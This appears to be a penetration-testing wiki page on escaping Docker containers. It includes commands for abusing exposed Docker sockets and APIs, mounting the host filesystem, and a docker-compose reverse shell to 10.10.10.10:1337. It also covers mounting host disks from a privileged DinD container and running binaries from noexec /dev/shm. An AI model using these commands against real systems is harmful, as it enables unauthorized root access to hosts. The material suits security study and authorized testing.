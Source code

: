```yaml
---
description: Use containers to run applications in a reproducible and isolated environment
---
```


# Docker

Docker allows you to build and run containers that hold an application in an isolated environment, similar to a Virtual Machine. This is done with Linux namespaces, however, making it much more lightweight than VMs.&#x20;

It should normally be impossible to escape to the host system from inside a container. While it may still be possible to reach into the internal network over regular network protocols, access to the host's filesystem and processes is restricted. There are, however, some misconfigurations that be exploited by attackers to get more access than expected, often targeting the host from inside the container.&#x20;

{% embed url="https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation" %}
Escaping docker with many different misconfigurations
{% endembed %}

Below are some more tricks that I've personally found useful.

## Docker Access

In some cases, you may be able to access the `docker.sock` socket or TCP ports 2375/2376 for the Docker API. This API does all the interaction with the host system. Through this, it is possible to start new containers with extra privileges and access through mounts.

### Connecting

If you find yourself as a low-privilege user on a machine with Docker installed, and you have the `docker` group, you should be able to successfully run the following command. Check out [#privilege-escalation](docker.md#privilege-escalation "mention") to abuse this to get `root` access.

```sh
docker version
```

The `-H` option with the `unix://` protocol allows you to connect to a mounted `docker.sock` socket somewhere on the filesystem if it is available:

```sh
docker -H unix:///path/to/docker.sock version
```

**For remote Docker APIs**, a host can be specified with `-H` on your local `docker` installation to run commands on another instance. Below is an example of an unencrypted connection to port 2375:

```sh
docker -H=10.10.10.10:2375 version
```

When **TLS** is required, just use port 2376 and `--tls`:

```sh
docker --tls -H=10.10.10.10:2376 version
```

As recommended, TLS servers may require a **client certificate** for authentication. If you have this, specify it with the `--tlscert` and `--tlskey` options:

```sh
docker --tls --tlscert=client.pem --tlskey=client-key.pem -H=10.10.10.10:2376 version
```

### Privilege Escalation

Interactive from `docker run` by mounting host:

```sh
docker run -it -v /:/host ubuntu chroot /host bash
```

Reverse shell using `docker-compose` by mounting host:

{% code title="docker-compose.yml" %}
```yaml
services:
  exploit:
    image: ubuntu
    command: "chroot /host bash -c 'bash -i >& /dev/tcp/10.10.10.10/1337 0>&1'"
    volumes:
      - /:/host

# docker-compose up
```
{% endcode %}

### Docker in Docker (DinD)

Using the [`docker:dind`](https://hub.docker.com/\_/docker/tags?name=dind) image, it is possible to run a nested Docker engine inside another Docker container. This allows applications that require starting docker containers to communicate with an isolated environment without requiring to talk with the host system directly.&#x20;

A simple working setup of this can be seen below:

<details>

<summary>Testing setup</summary>

Set up the following compose file with `docker-compose up`:

{% code title="docker-compose.yml" %}
```yaml
services:
  shell:
    image: docker:latest
    command: sleep infinity
    environment:
      DOCKER_TLS_VERIFY: 1
      DOCKER_HOST: tcp://docker:2376
      DOCKER_CERT_PATH: /certs/client
    volumes:
      - some-docker-certs-client:/certs/client
  docker:
    image: docker:dind
    privileged: true
    environment:
      DOCKER_TLS_CERTDIR: /certs
    volumes:
      - some-docker-certs-ca:/certs/ca
      - some-docker-certs-client:/certs/client

volumes:
  some-docker-certs-ca:
  some-docker-certs-client:
```
{% endcode %}

Then, use the command below to enter a shell in the unprivileged `shell` container:

```sh
docker exec -it dind_shell_1 sh
```

From here, use commands like `docker version` to interact with the `dind` container.

</details>

Making this work requires the `--privileged` flag to be set for the `dind` container, giving it more access to the host system than regular containers. We will abuse this, but first, we can use the techniques from [#privilege-escalation](docker.md#privilege-escalation "mention") to start a new container on the remote Docker API (DinD). \
Note that we also provide `--privileged` here to maintain the access:

{% code title="Escalate to Docker API" %}
```sh
docker run -it -v /:/host --privileged ubuntu chroot /host sh
```
{% endcode %}

When inside we should have access as if we are on the `dind` container itself. Because it is privileged, we can mount disks like `/dev/sda` to read and write to them. These disks come from the real host:

{% code title="Mount all disks" %}
```bash
for disk in /dev/sd*; do
    mnt=/mnt/$(basename $disk)
    mkdir -p $mnt
    mount $disk $mnt
done
```
{% endcode %}

The above may generate some "Invalid argument" messages, but all possible disks should now be mounted in `/mnt`. Look for the host system here and do anything with the newfound access to its files.

## Filesystem Protections

If you gain access to a container via some vulnerability, it might be hardened with some protections on the filesystem. A common one is "read-only file system" when writing anywhere.&#x20;

Regular directories under `/` will not be writable, but there is often one exception: `/dev/shm`. This special directory is stored in RAM instead of disk and is thus always writable. While it sounds perfect, it is commonly protected with a `noexec` flag disallowing any ELF binaries from executing inside this directory. Running `./pspy`, for example, won't work.

It is still possible to execute any bash code, however, and some clever people have abused this. By writing bash code that injects some ELF binary's logic into another process, it is possible to run a binary stored in `/dev/shm` without actually executing it. The repository below implements this:

{% embed url="https://github.com/arget13/DDexec" %}
Run any ELF binary from a `noexec` location by injecting it as shellcode
{% endembed %}

After uploading this shell script to the target together with your binary, run it with any arguments:

```sh
base64 -w0 pspy | bash ddexec.sh pspy ...
```

### Distroless RCE

In an ever more restricted scenario, your container will not even have common shells like `sh` or `ash`. It might only have the programming language required to run the application installed. While a regular reverse shell is impossible here, it is often possible to use the programming language to load shellcode similarly to DDexec. By running binaries such as `busybox`, many commands can be brought back to enumerate the system in this restricted environment.

Check out the following video for more information about exploiting this:

["DEF CON 31 - Exploring Linux Memory Manipulation for Stealth and Evasion - Polop, Gutierrez"](https://www.youtube.com/watch?v=poHirez8jk4)

